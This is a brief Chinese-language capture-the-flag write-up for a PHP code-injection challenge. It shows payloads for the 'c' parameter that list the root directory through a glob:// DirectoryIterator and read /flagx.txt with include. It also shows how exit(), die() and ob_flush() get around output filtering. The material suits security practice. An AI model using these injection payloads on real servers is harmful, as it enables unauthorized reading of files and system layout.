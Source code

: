 ![image-20250404170438677](./assets/image-20250404170438677.png)



同上题目



### 第一种

利用glob伪协议读取根目录

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```

![image-20250404170503050](./assets/image-20250404170503050.png)



直接include读取

```
c=include("/flagx.txt");exit();
```

![image-20250404170534215](./assets/image-20250404170534215.png)





### 第二种

```
c=include("/flagx.txt");die();
```

![image-20250404170546528](./assets/image-20250404170546528.png)



### 第三种

```
c=include("/flagx.txt");ob_end_flush();
```

![image-20250404170619436](./assets/image-20250404170619436.png)

ob_end_flush()被禁

但是ob_flush()可用

```
c=include("/flagx.txt");ob_flush();
```

![image-20250404170634221](./assets/image-20250404170634221.png)
